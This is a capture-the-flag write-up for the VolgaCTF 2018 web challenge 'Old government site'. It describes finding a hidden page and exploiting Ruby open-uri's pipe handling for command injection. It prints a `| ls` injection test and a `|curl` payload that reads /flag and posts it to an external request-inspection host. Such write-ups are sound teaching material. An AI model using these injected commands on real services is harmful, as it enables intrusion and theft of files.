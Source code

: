 # VolgaCTF Quals 2018 : Old government site

**Team:** NOPS  
**Category:** Web  
**Points:** 150  
**Description:**  
It's an old government web-site. Please, don't touch it. It works properly.

## Write-up

After connecting to the website, you have access to some links, no forms.
Nevertheless we saw that pages are fetched with an id: `http://old-government-
site.quals.2018.volgactf.ru:8080/page?id=33`

We run a script to see if there were some hidden pages and found one with the
id: `id=18`

It asks us to enter a website.  
If you enter a correct website like http://google.com you have a string
showing `validated` whereas is you only put google.com, it shows `error`.

When you enter a correct website, the server does a GET request on it.

So we played a bit with this field and found out that `/etc` is a correct
website. We then tried with the linux filesystem `/var` and some linux
commands `/bin/ls` etc and finally, we tried `/flag`. It worked. Nice, maybe
it's where the flag is, but how can we access it ?

Up to now, we know that the script behind is executing the command we give or
send a GET request on the url.

We also know that the framework used for the website is Sinatra. if you
request an unknow web page, it gives you an error.  
Sinatra is in ruby.

So we have to find a function in ruby that could open a file or a URL.

We found open-uri and the vulnerabilities related to it:
[sakurity.com](https://sakurity.com/blog/2015/02/28/openuri.html)

Let's try a `| ls` : it's validated. We've got a command injection. Let's
craft our command so it can read the /flag file and send it to a server:
`|curl -d "$(cat /flag)" -X POST http://ptsv2.com/t/3awt7-1521988385/post` (we
use ptsv2 website to inspect the content of the HTTP requests)

Bingo ! We've got out flag !

Original writeup
(https://github.com/newclem/ctfs/blob/master/2018/VolgaCTF_quals/old_government_site.md).
